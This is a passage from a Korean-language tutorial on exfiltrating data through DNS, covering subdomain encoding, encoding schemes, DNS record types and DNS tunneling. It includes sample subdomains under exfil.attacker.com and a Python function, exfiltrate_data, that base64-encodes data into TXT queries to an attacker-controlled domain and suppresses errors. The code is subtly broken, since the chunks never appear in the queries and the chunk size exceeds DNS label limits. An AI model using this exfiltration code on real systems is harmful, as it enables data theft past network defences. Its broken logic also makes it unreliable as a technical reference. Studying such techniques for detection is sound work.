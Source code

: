이러한 쿼리를 DNS 서버에 전송하면, 공격자는 자신이 제어하는 권한 있는 네임서버에서 이 요청을 로깅하고 데이터를 추출할 수 있습니다.

### 2. 서브도메인 인코딩

대량의 데이터를 유출할 경우, 데이터를 여러 서브도메인으로 분할합니다:

```
part1-of-data.exfil.attacker.com
part2-of-data.exfil.attacker.com
part3-of-data.exfil.attacker.com
```

### 3. 다양한 인코딩 기법

데이터 유출 시 다음과 같은 인코딩 방법을 사용할 수 있습니다:

* **Base64 인코딩**: 바이너리 데이터를 ASCII 텍스트로 변환
* **Hex 인코딩**: 16진수로 데이터 변환
* **비트 단위 분할**: 데이터를 비트 단위로 분할하여 전송

### 4. DNS 레코드 타입 활용

다양한 DNS 레코드 타입을 사용하여 데이터 전송량을 늘릴 수 있습니다:

* **TXT 레코드**: 최대 255자의 텍스트 데이터 저장 가능
* **NULL 레코드**: 임의의 바이너리 데이터 포함 가능
* **CNAME 레코드**: 다른 도메인명으로 별칭 지정
* **MX 레코드**: 메일 서버 정보 지정

예제 코드 (TXT 레코드를 사용한 데이터 유출):
```python
import dns.resolver
import base64

def exfiltrate_data(data, domain="exfil.attacker.com"):
    encoded_data = base64.b64encode(data.encode()).decode()
    # 255자 단위로 데이터 분할
    chunks = [encoded_data[i:i+255] for i in range(0, len(encoded_data), 255)]
    
    for i, chunk in enumerate(chunks):
        query = f"chunk{i}.{domain}"
        try:
            dns.resolver.resolve(query, 'TXT')
        except:
            pass  # 실패해도 계속 진행
```

## DNS 터널링

DNS 터널링은 DNS 프로토콜을 통신 채널로 사용하여 다른 프로토콜(HTTP, SSH 등)의 데이터를 전송하는 기술입니다. 이는 단순한 데이터 유출을 넘어 양방향 통신까지 가능하게 합니다.

**작동 원리**:
1. 클라이언트는 전송하려는 데이터를 인코딩하여 DNS 쿼리의 일부로 포함시킵니다.
2. 이 쿼리는 공격자가 제어하는 권한 있는 DNS 서버로 전달됩니다.
3. 서버는 쿼리에서 데이터를 추출하고, 응답 데이터를 다시 DNS 응답으로 인코딩하여 반환합니다.
4. 이러한 요청-응답 사이클이 지속적으로 반복되며 통신 채널을 형성합니다.
